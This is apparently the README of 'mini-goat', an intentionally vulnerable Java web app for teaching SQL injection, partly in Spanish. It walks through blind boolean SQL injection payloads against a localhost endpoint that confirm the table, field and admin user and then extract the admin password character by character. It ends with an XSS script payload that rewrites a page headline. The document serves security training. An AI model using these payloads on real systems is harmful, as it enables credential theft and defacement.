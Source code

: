# mini-goat

A simple Java application to test and demonstrate SQL Injections.

## Installation

It's a web-app made with SpringMVC and Postgres. Should be easily setup.

## Injections

    [http://localhost:8080/mini-goat/usuarios/listado.do?filtro=](http://localhost:8080/mini-goat/usuarios/listado.do?filtro=)

1. comprobamos que es un like:

    a
    b

2. verificamos que podemos obtener un verdadero distinguible

    pipo' and '1' like '1

3. verificamos que podemos obtener un falso distinguible

    pipo' and '1' like '2

4. verificamos que la tabla se llama "usuarios"

    pipo' or exists (select 1 from usuarios) and '1' like '1

4.1. por una falla de configuración, si erramos el nombre de la tabla, tenemos un error

    pipo' or exists (select 1 from usuario) and '1' like '1

5. verificamos que hay un campo password

    pipo' or exists (select 1 from usuarios where password = password) and '1' like '1

6. verificamos que existe efectivamente el usuario admin

    pipo' or exists (select 1 from usuarios where password = password and username = 'admin') and '1' like '1

7. vemos el largo de la contraseña

pipo' or exists (select 1 from usuarios where length(password) > 0 and username = 'admin') and '1' like '1

8. vemos con qué letra empieza la contraseña

pipo' or exists (select 1 from usuarios where substring(password, 1, 1) < 'z' and username = 'admin') and '1' like '1

9. vemos con qué letra sigue la contraseña

pipo' or exists (select 1 from usuarios where substring(password, 1, 1) = '1' and substring(password, 2, 1) < 'z' and username = 'admin') and '1' like '1

10. así sucesivamente, hasta sacar todos los caracteres de la contraseña

pipo' or exists (select 1 from usuarios where substring(password, 1, 1) = '1' and substring(password, 2, 1) = '2' and substring(password, 3, 1) = '3' and substring(password, 4, 1) = '4' and username = 'admin') and '1' like '1

## XSS

    [http://localhost:8080/mini-goat/noticias/leer.do?id=1](http://localhost:8080/mini-goat/noticias/leer.do?id=1)

    <script>document.getElementsByTagName("h1")[0].innerHTML = "Obama perdonó la deuda con Argentina";</script>
